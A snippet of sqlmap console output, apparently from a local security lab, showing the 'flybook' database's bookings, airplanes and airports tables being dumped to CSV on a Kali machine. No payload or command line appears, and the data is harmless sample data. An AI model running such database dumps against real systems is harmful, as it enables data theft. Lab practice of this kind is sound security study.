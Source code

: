 ```bash
Table: bookings
[10 entries]
+----+--------+--------+-----------+
| id | flight | status | passenger |
+----+--------+--------+-----------+
| 1  | 6      | OK     | 1         |
| 2  | 312    | OK     | 1         |
| 3  | 313    | OK     | 1         |
| 4  | 311    | OK     | 1         |
| 5  | 312    | OK     | 1         |
| 6  | 311    | OK     | 1         |
| 7  | 311    | OK     | 1         |
| 8  | 311    | OK     | 1         |
| 9  | 311    | OK     | 1         |
| 10 | 311    | OK     | 1         |
+----+--------+--------+-----------+

[05:28:20] [INFO] table 'flybook.bookings' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/flybook/bookings.csv'
[05:28:20] [INFO] fetching columns for table 'airplanes' in database 'flybook'
[05:28:20] [INFO] fetching entries for table 'airplanes' in database 'flybook'
Database: flybook
Table: airplanes
[10 entries]
+----+-------------------+-------+-------------------+
| id | model             | seats | airline           |
+----+-------------------+-------+-------------------+
| 1  | Airbus A319       | 250   | KLM               |
| 2  | Airbus A320       | 180   | SAS               |
| 3  | Airbus A321       | 200   | Turkish Airlines  |
| 4  | Boeing 737        | 260   | Norwegian         |
| 5  | Boeing 777        | 350   | Emirates Airlines |
| 6  | Airbus A330       | 140   | Lufthansa         |
| 7  | Embraer E-195     | 130   | LOT               |
| 8  | Bombardier CRJ900 | 200   | Air Canada        |
| 9  | Boeing 767        | 260   | Delta Airlines    |
| 10 | Boeing 757        | 180   | EasyJet           |
+----+-------------------+-------+-------------------+

[05:28:20] [INFO] table 'flybook.airplanes' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/flybook/airplanes.csv'
[05:28:20] [INFO] fetching columns for table 'airports' in database 'flybook'
[05:28:20] [INFO] fetching entries for table 'airports' in database 'flybook'
Database: flybook
Table: airports
[3592 entries]
+------+---------+--------------------------------------------------------------+
| id   | code    | airport                                                      |
+------+---------+--------------------------------------------------------------+
[05:28:20] [WARNING] console output will be trimmed to last 256 rows due to large table size
| 3337 | USK     | Usinsk, Russia                                               |
| 3338 | UIK     | Ust-Ilimsk, Russia                                           |
| 3339 | UKK     | Ust-Kamenogorsk, Kazakhstan                                  |

(...)

| 3590 | OUZ     | Zouerate, Mauritania                                         |
| 3591 | UGU     | Zugapa, Indonesia                                            |
| 3592 | ZRH     | Zurich, Switzerland                                          |
+------+---------+--------------------------------------------------------------+

[05:28:22] [INFO] table 'flybook.airports' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/flybook/airports.csv'
```